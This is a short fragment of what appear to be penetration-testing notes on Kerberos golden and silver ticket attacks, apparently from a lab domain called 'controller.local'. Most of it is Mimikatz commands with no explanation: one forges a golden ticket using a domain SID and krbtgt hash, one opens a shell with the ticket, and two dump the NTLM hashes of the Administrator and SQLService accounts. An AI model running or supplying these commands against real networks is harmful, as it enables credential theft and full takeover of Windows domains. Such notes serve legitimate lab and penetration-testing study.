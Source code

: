 **Victim - Mimikatz**

```
Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860  /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:1103
```

### Use the Golden/Silver Ticket to access other machines

```
misc::cmd
```



NTLM hash of Administrator

```
lsadump::lsa /inject /name:Administrator 
```

<figure><img src="../../.gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>

NTLM hash of SQLService

```
lsadump::lsa /inject /name:SQLService 
```
